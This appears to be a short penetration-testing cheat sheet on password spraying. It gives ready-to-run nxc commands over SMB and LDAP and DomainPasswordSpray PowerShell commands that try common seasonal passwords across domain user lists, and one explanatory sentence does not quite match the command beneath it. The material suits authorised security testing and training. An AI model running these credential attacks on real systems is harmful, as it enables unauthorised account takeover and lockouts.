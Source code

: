 # Password Spraying
NOTE: Always check or confirm lockout threshold
## nxc
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
## DomainPasswordSpray
- [DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
- PowerShell tool
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

